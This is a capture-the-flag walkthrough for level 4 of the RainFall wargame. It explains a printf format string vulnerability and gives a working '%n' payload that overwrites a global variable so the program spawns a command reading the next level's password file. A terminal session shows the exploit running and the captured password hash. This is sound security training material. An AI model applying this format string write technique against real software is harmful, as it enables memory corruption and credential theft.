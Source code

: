 
### 1.
- **`n()` function** calls `fgets()` to read input, which is safe from buffer overflows.
- **`p()` function** is where the format string vulnerability exists. It calls `printf()`, and this is where the vulnerability can be exploited.
- The program has a global variable `m` at the address `0x8049810`. The value of `m` is compared to `0x1025544`. If they match, a shell is spawned via `system()`.

``` bash
(gdb) info variables m
All variables matching regular expression "m":

Non-debugging symbols:
0x08049808  completed.6159
0x08049810  m
```

### 2. **Objective**
The goal is to manipulate the `printf()` function to change the value of the global variable `m` at `0x8049810` so that the comparison in the code succeeds (`m == 0x1025544`), which will trigger the `system()` call and allow us to execute arbitrary code (i.e., read the password file).

### 3. **Understanding Format String Vulnerability**
- `printf()` is vulnerable to format string exploits. By controlling the format string, you can print memory values and modify values in memory using format specifiers like `%n`.
- `%x` prints the value at the memory address in hexadecimal.
- `%d` allows specifying a width for the printed value, and `%n` writes the number of characters printed so far into a variable (this is what we use to change `m`).

### 4. **Exploitation Process**
Here’s how you can manipulate the format string to change `m`:

1. **Leaking Memory with `%x`**:
   - First, we print memory values using the format string `"%x"`, which reveals the stack values. The goal is to find the address of the global variable `m` and modify it.
   - use Python to craft the exploit:
     ```bash
     python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit4
     cat /tmp/exploit4 | ./level4
     ```
     This will print memory addresses, and you look for the value of `m` by scanning the output.

2. **Adjusting the Format String**:
   - Once we find the address of `m`, we need to overwrite it with the value `0x1025544`. To do this, you need to control the output of `printf()` to write that value to the address of `m`.
   - Since the comparison checks if `m == 0x1025544`, we need to format the string in a way that makes `printf()` write the correct value.
   - First, we calculate the difference between `0x1025544` and the current value of `m` in the memory dump.
   - The format string you use is like this:
     ```python
     python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit4

     ```

3. **The Exploit Breakdown**:
   - `"\x10\x98\x04\x08"` is the address of the global variable `m` (in little-endian format).
   - `%16930112d` causes `printf()` to print a large number of characters to reach the required value for `m` (16930112 minus 4 bytes for `m`).
   - `%12$n` writes the number of characters printed so far (the value we calculated) into the address of `m` (at position 12 in the stack, corresponding to the address we passed earlier).

4. **Triggering the Shell**:
   - When the format string successfully writes the value `0x1025544` to `m`, the comparison `m == 0x1025544` is true, and the program calls `system()`.
   - This will execute the command `system("/bin/cat /home/user/level5/.pass")`, which reads the password for level 5.

5. **Final Steps**:
   - After successfully exploiting the format string vulnerability, you switch to the `level5` user by running `su level5`, and use the password obtained from the file `/home/user/level5/.pass` to log in.

``` bash 
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit4
level4@RainFall:~$ cat /tmp/exploit4 | ./level4
                                                                                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ su level5
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
level5@RainFall:~$

``` 